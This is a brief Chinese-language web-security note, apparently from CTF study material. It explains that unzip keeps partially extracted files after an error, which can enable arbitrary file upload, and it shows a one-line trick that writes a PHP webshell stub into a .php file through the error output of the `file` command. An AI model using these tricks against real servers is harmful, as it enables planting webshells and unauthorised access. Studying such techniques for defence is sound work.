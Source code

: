 # unzip
unzip解压的特殊性：解压是按“轮询”的方式进行，即解压成功的文件会保留，遇到错误立即停止，之前解压成功的文件不会自动删除   ---->  任意文件上传
# file
file命令的webshell写入：`file '<?php $_GET[\"a\"];#' >/home/wbh/xx.php`，file命令的作用就是用于辨识文件类型，单引号包裹的是文件名，前面命令执行的结果是识别出`<?php $_GET[\"a\"];#`文件的文件类型结果写进`xx.php`文件中，原本上就不存在`<?php $_GET[\"a\"];#`文件，因此将```<?php $_GET[\"a\"];#: cannot open `<?php $_GET[\"a\"];#' (No such file or directory)```结果写进去`xx.php`文件中
